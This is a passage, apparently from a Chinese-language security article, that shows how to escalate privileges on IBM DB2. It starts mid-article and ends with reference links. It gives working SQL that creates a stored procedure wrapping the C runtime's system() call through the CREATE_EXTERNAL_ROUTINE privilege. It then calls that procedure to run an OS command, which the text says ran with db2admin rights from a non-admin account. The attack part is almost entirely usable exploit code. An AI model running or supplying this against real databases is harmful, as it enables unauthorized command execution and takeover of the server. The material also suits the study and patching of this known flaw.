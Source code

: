 1. 使用具有 CREATE_EXTERNAL_ROUTINE 权限的用户运行以下 DDL，利用 C runtime system 来创建一个存储过程：

```

#!sql

CREATE PROCEDURE db2_exec (IN cmd varchar(1024)) EXTERNAL NAME 'msvcrt!system' LANGUAGE C DETERMINISTIC PARAMETER STYLE DB2SQL

```

2. 调用刚才创建的存储过程：

```

#!sql

CALL db2_exec('whoami /all > C\:whoami.log')

```

查看命令创建的 whoami.log 文件，发现包含了 db2admin 信息。这意味着，我们用一个非管理员账户成功用管理员权限执行了命令。

*   [http://en.wikipedia.org/wiki/IBM_DB2](http://en.wikipedia.org/wiki/IBM_DB2)

*   [http://www.ibm.com/developerworks/cn/data/library/techarticles/dm-0503melnyk/](http://www.ibm.com/developerworks/cn/data/library/techarticles/dm-0503melnyk/)

*   [http://www.sqlinjectionwiki.com/Categories/7/ibmdb2-sql-injection-cheat-sheet/](http://www.sqlinjectionwiki.com/Categories/7/ibmdb2-sql-injection-cheat-sheet/)

*   [http://www-01.ibm.com/support/docview.wss?uid=swg21672100](http://www-01.ibm.com/support/docview.wss?uid=swg21672100)

*   [http://blog.spiderlabs.com/2014/07/about-two-ibm-db2-luw-vulnerabilities-patched-recently.html](http://blog.spiderlabs.com/2014/07/about-two-ibm-db2-luw-vulnerabilities-patched-recently.html)